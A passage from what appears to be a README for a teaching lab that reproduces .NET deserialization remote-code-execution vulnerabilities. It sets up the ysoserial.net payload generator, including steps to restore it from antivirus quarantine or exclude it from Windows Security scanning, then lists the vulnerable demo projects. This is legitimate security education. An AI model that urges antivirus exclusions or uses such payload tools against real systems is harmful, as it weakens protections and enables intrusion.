    %userprofile%\source\repos\ysoserial.net\ysoserial\bin\Debug
    ```

1. Execute `ysoserial --help`. The executable may not be available. It is considered malware by most malware scanners. Check Windows Security or your active malware scanner for detected threats and remove `ysoserial.exe` from quarantine.

    a. If `ysoserial.exe` is not available, navigate to Windows Security and select Virus & Threat Protection. Review threat history and find `ysoserial.exe`. Select Action | Restore.

    

    b. Alternatively, ysoserial can be excluded from threat protection using these instructions: [Add an exclusion to Windows Security](https://support.microsoft.com/en-us/windows/add-an-exclusion-to-windows-security-811816c0-4dfd-af4a-47e4-c301afe13b26?WT.mc_id=MVP_337682).

1. Optionally, add the Debug directory to your %PATH%.

Take a moment to review the [Usages](https://github.com/pwntester/ysoserial.net?tab=readme-ov-file#usage) of `ysoserial` parameters before embarking into the projects.

### Clone rce-serialization-dotnet Repo

The [rce-serialization-dotnet](https://github.com/johniwasz/rce-serialization-dotnet) repo includes the serializations projects and this documentation.

1. Open a command prompt and navigate to:

    ``` bat
    %userprofile%\source\repos
    ```

1. Clone the rce-serialization-dotnet repo.

    ``` bat
    git clone https://github.com/johniwasz/rce-serialization-dotnet.git
    ```

The projects are in the `src` subdirectory.

## Serialization Vulnerability Repros

Each project reproduces a serialization vulnerability.

| Project | Description |
| --- | --- |
| [01-BinaryFormatterVulnerabilities](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/serialization/BinarySerialization.md) | BinaryFormatter vulnerability in .NET Framework 4.8 |
| [02-Framework-JsonVulnerabilities](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/serialization/JSONSerialization.md) | Json.NET vulnerability in .NET Framework 4.8 |
| [03-.NET-JsonVulnerabilities](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/serialization/NET8JSON.md) | Json.NET vulnerability in .NET 8 |

Load the solution in each project in Visual Studio, run the solution, and use the requests.http in the Solution Items folder to walk through the vulnerabilities.
